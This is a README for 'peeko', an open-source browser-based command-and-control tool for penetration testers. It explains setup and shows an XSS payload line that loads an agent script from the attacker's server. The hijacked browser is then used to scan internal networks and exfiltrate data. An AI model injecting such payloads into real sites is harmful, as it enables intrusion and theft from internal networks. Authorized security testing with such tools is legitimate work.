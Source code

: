 # peeko

**Version:** v1.0

peeko is a browser-based XSS-powered C2 (Command and Control) tool that leverages the victim’s browser as a stealthy proxy inside internal networks.

Through an injected XSS payload, peeko establishes a WebSocket connection to a central server, allowing an attacker to remotely control the victim’s browser to send requests to internal services, scan networks, and exfiltrate data — all without dropping a single binary.

---

## Features

- WebSocket-based communication between attacker and multiple victims  
- Victim’s browser fetches internal URLs and scans IP ranges + ports  
- Simple control panel with:  
  - Victim selector  
  - Manual URL fetch  
  - IP and port range scanner  
  - Log viewer with copy/save functionality  
- Self-signed HTTPS support with auto-generated certificates  
- Lightweight: single Python file + static assets  

---

## Requirements

- Python 3.8+  
- OpenSSL  
- Linux/macOS (tested on Debian-based systems)  

---

## Quick Start

1. Clone the repository:

    ```bash
    git clone https://github.com/b3rito/peeko.git
    cd peeko
    ```

2. Install dependencies:

    ```bash
    make install
    ```

3. (Optional) Make scripts executable if needed:

    ```bash
    chmod +x gen-cert.sh start.sh
    ```

4. Generate a self-signed TLS certificate:

    ```bash
    make cert
    ```

5. Replace the `SERVER-IP` placeholder:

    Open the following files and replace all occurrences of `SERVER-IP` with the actual IP address or domain of your machine:

    - `static/agent.js`
    - `static/control.html`

    Example:

    ```javascript
    wss://SERVER-IP:8443/ws → wss://192.168.1.12:8443/ws
    ```

6. Run the server:

    ```bash
    make run
    ```

7. Open your browser and access the control panel:

    ```
    https://SERVER-IP:8443/static/control.html
    ```

8. Inject the XSS payload (example):

    ```html
    <script src="https://SERVER-IP:8443/static/agent.js"></script>
    ```
---

## Usage

### Control Panel

- Choose a connected victim from the dropdown  
- Input a manual URL to fetch via the victim  
- Specify an IP range (e.g. `192.168.1.10-20` or `192.168.1.0/24`) and ports (e.g. `80,8080,3000-3010`) to scan  
- Results will appear in the log viewer:  
  - HTTP status  
  - Body preview 
- You can copy the log or save it as `.txt` or `.json`  

---

### SERVER-IP Placeholder

In both `agent.js` and `control.html`, the WebSocket connection points to:

```javascript
wss://SERVER-IP:8443/ws
```

**Before deploying**, replace `SERVER-IP` with your actual IP address (e.g. `192.168.1.12` or a public IP/domain). This ensures the victim browser and control panel can communicate with your server over HTTPS.

---


## Project Structure

```
peeko/
├── main.py             → FastAPI WebSocket server  
├── start.sh            → Launch server  
├── gen-cert.sh         → Generate self-signed TLS certificate  
├── Makefile            → Install/run helpers  
├── requirements.txt    → Python dependencies  
├── certs/              → TLS key and cert will be stored here  
└── static/             → Browser client assets  
    ├── control.html    → Control panel (was attacker.html)  
    ├── infect.html     → Victim landing page  
    └── agent.js        → Victim agent script  
```

---

## Workflow

1. Inject the payload into a vulnerable web application  
2. Victim’s browser loads the agent and connects to your peeko server  
3. From the control panel, you issue commands to fetch URLs or scan targets  
4. peeko logs and returns the content of internal services  

---

## Use Cases

- Internal network exploration through browser footholds  
- LAN service enumeration from inside the victim’s network   

---

## CORS Behavior and Mixed Content Issues

peeko uses `fetch()` from within the victim’s browser to request internal web services. Modern browsers enforce **CORS (Cross-Origin Resource Sharing)** policies that determine whether the attacker can read the response.

### CORS Scenarios

| Response Header                           | Works? | Explanation                                                |
|-------------------------------------------|--------|------------------------------------------------------------|
| `Access-Control-Allow-Origin: *`          | ✅     | You can read the full response body and status code.       |
| *No* `Access-Control-Allow-Origin`        | ⚠️     | The request succeeds, but the response is opaque.          |
| Restrictive CORS (e.g., specific domains) | ❌     | The browser blocks the response or hides its contents.     |

### Mixed Content Issues

Because peeko’s connection to the victim’s browser is over **HTTPS**, attempting to fetch **HTTP** (non-secure) URLs may result in **mixed content errors**. In modern browsers, these errors prevent the browser from loading or reading the HTTP resource. This means:

- Even if a target HTTP service would respond with useful data, the victim’s browser will block or not expose that data to your script.
- peeko can only extract and relay content from services that are accessible over HTTPS.

### In Practice

During a penetration test, if you find an internal service that responds with `Access-Control-Allow-Origin: *` and is served over HTTPS, then peeko becomes a stealth proxy capable of exfiltrating internal data directly from the victim's browser without dropping any files or opening outbound connections.


---

## Disclaimer

This tool is provided for educational and authorized testing purposes only.  
Any use of peeko outside of environments where you have explicit permission is **strictly prohibited**.  
You are responsible for your own actions.

---

## Authors

Written by **b3rito** at mes3hacklab & **GioPpeTto**
